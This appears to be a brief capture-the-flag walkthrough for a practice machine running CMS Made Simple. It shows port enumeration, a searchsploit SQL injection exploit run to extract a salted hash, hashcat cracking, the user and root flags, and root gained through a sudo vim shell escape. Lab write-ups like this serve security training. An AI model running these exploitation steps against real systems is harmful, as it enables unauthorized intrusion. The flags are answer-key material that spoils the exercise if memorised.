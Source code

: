<pre>
Machine IP: 10.10.71.115

Enum:
    Open Ports:
        21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu)) -> CMS Made Simple vuln
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



searchsploit CMS Made Simple

CMS Made Simple < 2.2.10 - SQL Injection     
| exploits/php/webapps/46635.py

Mirror the exploit:

searchsploit -m exploits/php/webapps/46635.py python3 fixes errors 
An dn trexei kante edit ta print mesa sto script kai valte “()”

python3 46635.py -u http://10.10.71.115/simple/ -w /wordlist/path/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

Twra thelei na kanoyme crack to hash
echo “0c01f4468bd75d7a84c7eb73846e8d96” > hash.txt

hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

Pwd:secret
User flag : G00d j0b, keep up!
Root flag : W3ll d0n3. You made it!

$ id 
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

sudo vim /usr/bin/vim

And type ‘shift :!sh ’ and got root :DD
# id
uid=0(root) gid=0(root) groups=0(root)
</pre>
